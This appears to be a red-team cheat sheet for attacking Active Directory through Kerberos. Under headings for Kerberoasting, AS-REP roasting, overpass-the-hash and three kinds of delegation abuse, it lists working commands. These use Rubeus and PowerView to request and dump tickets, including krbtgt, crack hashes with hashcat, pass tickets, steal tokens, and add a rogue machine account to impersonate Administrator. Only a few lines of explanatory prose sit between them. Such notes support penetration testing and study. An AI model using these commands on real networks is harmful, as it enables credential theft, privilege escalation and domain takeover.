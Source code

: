### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe  kerberoast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
powershell Get-DomainGPOLocalGroup
powershell Get-DomainGroupMember -identity 'Workstation Admins' -recurse | select -exp membername 
powershell Get-DomainGroupMember -identity 'Helpdesk\Admins' -recurse | select -exp membername  
powershell Get-DomainOU -GPLink '{66465373-16CB-4F96-BD3A-12AE7D2C2371}' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
powershell Find-DomainUserLocation -userIdentity 'Workstation\Admins'  

execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be # krbtgt/insomnia.ninja along with LUID
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x21d8e17 /ticket:[...snip...]
steal_token 4652
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
powershell Get-DomainComputer -TrustedToAuth -Properties distinguishedname,msds-allowedtodelegateto,useraccountcontrol -Verbose | fl 
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo #To find what services it could delegate for
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:JOHN-PC$ /msdsspn:cifs/John-PC.acmebank.local /ticket:
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x239b995 /ticket:[...snip...]
steal_token 3420
ls \\fs-1.cyberbotic.io\c$
```
### Resource-based Constrained Delegation
service administrators/owners can configure which domain accounts are allowed to delegate to them.
```
Import-Module .\Powermad.psd1

New-MachineAccount -Domain insomnia.io -DomainController 192.168.100.1 -MachineAccount Evil_genius -Password (ConvertTo-SecureString 'Password!@#' -AsPlainText -Force) -Verbose

Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1

Set-ADComputer ops-sqlsrvone -PrincipalsAllowedToDelegateToAccount Evil_genius$ -Verbose

Rubeus.exe s4u /user:Evil_genius$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /msdsspn:http/opssqlsrvone /impersonateuser:Administrator /ptt
```

